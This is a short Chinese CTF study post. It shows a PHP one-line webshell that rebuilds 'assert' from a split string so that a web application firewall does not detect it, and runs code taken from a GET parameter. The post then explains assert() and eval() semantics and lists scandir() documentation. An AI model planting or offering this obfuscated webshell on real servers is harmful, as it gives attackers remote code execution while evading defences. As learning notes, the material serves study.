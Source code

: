 ```yaml
---
layout:     post
title:      "CTF学习"
subtitle:   "过狗一句话"
date:       2019-10-03 00:30:00
author:     "LR"
header-img: "img/ctf_background.jpeg"
tags:
    - CTF
---
```


## 过狗一句话

```
<?php 
$poc="a#s#s#e#r#t"; 
$poc_1=explode("#",$poc);   #poc_1是一个数组，分割界是“#”
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; 
$poc_2($_GET['s'])  #assert($_GET['s'])
?>
```

#### assert()函数
1 assert是函数,eval不是函数,是语言构造器
2 eval($a)中$a只能是字符串,assert($a)中$a可以是php代码,也可以是php代码的字符串,assert($a)的$a如果是字符串形式不能有2个以上的分号,如果有2个以上的分号只执行到第一个,使用assert来执行多条php语句可借助eval来实现 
eg.
<br/>
assert(eval("echo 1;echo 2;"));
<br/>
[注意上面这句如果是assert(eval("echo 1;echo 2"));这样写是不会执行echo 1也不会执行echo 2的,因为eval使用的字符串要是有分号的php语句] 
<br/><br/><br/>
[参考文献](http://www.52bug.cn/hkjs/2018.html)

#### scandir()函数
(PHP 5, PHP 7)
***
scandir — 列出指定路径中的文件和目录
<br/>
说明
`scandir ( string $directory [, int $sorting_order [, resource $context ]] ) : array`
返回一个 array，包含有 directory 中的文件和目录。 
<br/>
参数
***
directory   要被浏览的目录
sorting_order   默认的排序顺序是按字母升序排列。如果使用了可选参数 sorting_order（设为 1），则排序顺序是按字母降序排列。
context 略
<br/>
返回值
***
成功则返回包含有文件名的 array，如果失败则返回 FALSE。如果 directory 不是个目录，则返回布尔值 FALSE 并生成一条 E_WARNING 级的错误。
